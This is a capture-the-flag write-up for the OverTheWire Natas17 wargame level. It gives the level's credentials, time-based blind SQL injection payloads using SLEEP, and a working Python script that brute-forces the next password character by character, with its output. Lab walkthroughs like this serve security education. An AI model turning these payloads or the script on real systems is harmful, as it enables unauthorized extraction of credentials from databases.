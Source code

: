 # Natas17

*	user: `natas17`
*	pass: `8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw`
*	url: `http://natas17.natas.labs.overthewire.org`
*	flag: `xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP`

## Procedure

1.	Just another brute force attack very similar to
	[Natas15](../natas15.md) and [Natas16](../natas16.md). The difference
	here is that no text-based evidence about query execution's result
	is provided (see commented line in the source code).

2.	Despite this, we can try with a time-based blind SQL injection. We'll
	reuse solution of [Natas15](../natas15.md) but in this case the
	injected string are

		natas18" AND IF(password LIKE BINARY "%<char>%",SLEEP(15), 1)#

	and

		natas18" AND IF(password LIKE BINARY "<pwd_token>%",SLEEP(15), 1)#

	Below the Python script

		import requests

		pwd_len = 32

		charset_0 = (
			'0123456789' +
			'abcdefghijklmnopqrstuvwxyz' +
			'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
		)
		charset_1 = ''

		target = 'http://natas17.natas.labs.overthewire.org'
		auth=('natas17','8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')
		sleep_time = 15

		for c in charset_0:
			username = 'natas18" AND IF(password LIKE BINARY "%%%c%%",SLEEP(%d), 1)#' % (c, sleep_time)
			r = requests.get(target, auth=auth, params={"username": username}
			)
			s = r.elapsed.total_seconds()
			if s >= sleep_time:
				charset_1 += c
				print ('C: ' + charset_1.ljust(len(charset_0), '*'))

		print ""

		password = ""
		while len(password) != pwd_len:
			for c in charset_1:
				t = password + c
				username = 'natas18" AND IF(password LIKE BINARY "%s%%",SLEEP(%d), 1)#' % (t, sleep_time)
				r = requests.get(target, auth=auth, params={"username": username}
				)
				s = r.elapsed.total_seconds()
				if s >= sleep_time:
					print ('P: ' + t.ljust(pwd_len, '*'))
					password = t
					break

3.	Let's try to run the script

		$ python natas17.py
		C: 0*************************************************************
		...
		C: 047dghjlmpqsvwxyCDFIKOP***************************************
		C: 047dghjlmpqsvwxyCDFIKOPR**************************************

		P: x*******************************
		...
		P: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd*
		P: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
